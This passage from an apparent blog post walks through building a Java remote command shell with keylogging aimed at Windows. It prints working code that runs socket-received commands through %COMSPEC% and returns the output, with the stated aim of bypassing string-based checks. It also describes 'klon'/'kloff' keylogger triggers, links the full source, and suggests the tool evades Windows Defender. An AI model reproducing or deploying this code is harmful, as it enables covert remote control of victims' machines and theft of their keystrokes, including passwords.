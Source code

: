 Since our target OS is Windows, we will use the `%COMSPEC%` environment variable which simply points to `C:\WINDOWS\system32\cmd.exe` – useful in bypassing string-referenced checks – to execute incoming data from a non-empty buffer:

{% highlight java %}
String inc, comSpec = System.getenv("comSpec") + " /c ";

while(true){
    if((inc = rr.readLine()) != null){
        Process p = Runtime.getRuntime().exec(comSpec + inc);
        Scanner sc = new Scanner(p.getInputStream());
        while (sc.hasNext()) pw.println(sc.nextLine());
        pw.flush();
        sc.close();
    }
}
{% endhighlight %}

Furthermore, we will also use the Path object to send the current working directory before command output for readability and convenience:

{% highlight java %}
Path crp = Paths.get("");
String rp = crp.toAbsolutePath().toString();
{% endhighlight %}

To add keylogging capabilities in real-time through sockets, I used the [log4j](https://logging.apache.org/log4j/2.x/) API utility to capture user keystrokes. After integration, the full source code is as follows:

<script src="https://gist.github.com/artikrh/9fe78a9c3ecca773be4ab8e4f200c043.js"></script>

Compiling this Java program into a Windows Excecutable comprises of convering `.jar` to `.exe` using [various tools](https://stackoverflow.com/questions/2011664/compiling-a-java-program-into-an-executable), however, I will be using the IntelliJ IDE to [directly build a binary artifact](https://www.youtube.com/watch?v=_KHCHiH2RZ0) and run the program along a fully up-to-date Windows Defender. The `klon` keyword will triger the keylogging capability, whereas `kloff` will stop the key listener:

![Proof of Concept](/assets/images/Keylogger.png)
